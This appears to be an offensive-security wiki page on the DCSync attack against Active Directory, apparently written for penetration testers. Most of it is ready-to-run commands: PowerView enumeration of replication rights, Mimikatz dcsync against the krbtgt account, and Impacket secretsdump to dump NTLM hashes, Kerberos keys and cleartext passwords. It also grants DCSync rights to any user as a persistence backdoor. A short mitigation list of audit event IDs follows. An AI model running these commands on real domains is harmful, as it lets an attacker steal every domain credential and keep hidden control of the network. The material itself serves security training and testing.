# DCSync

## DCSync

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

**Important Notes about DCSync:**

- The **DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information** using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.
- By default only **Domain Admins, Enterprise Admins, Administrators, and Domain Controllers** groups have the required privileges.
- If any account passwords are stored with reversible encryption, an option is available in Mimikatz to return the password in clear text

### Enumeration

Check who has these permissions using `powerview`:

```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

### Exploit Locally

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Exploit Remotely

```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```

`-just-dc` generates 3 files:

- one with the **NTLM hashes**
- one with the the **Kerberos keys**
- one with cleartext passwords from the NTDS for any accounts set with [**reversible encryption**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled. You can get users with reversible encryption with

  ```bash
  Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
  ```

### Persistence

If you are a domain admin, you can grant this permissions to any user with the help of `powerview`:

```bash
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

Then, you can **check if the user was correctly assigned** the 3 privileges looking for them in the output of (you should be able to see the names of the privileges inside the "ObjectType" field):

```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

### Mitigation

- Security Event ID 4662 (Audit Policy for object must be enabled) – An operation was performed on an object
- Security Event ID 5136 (Audit Policy for object must be enabled) – A directory service object was modified
- Security Event ID 4670 (Audit Policy for object must be enabled) – Permissions on an object were changed
- AD ACL Scanner - Create and compare create reports of ACLs. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## References

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
- [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

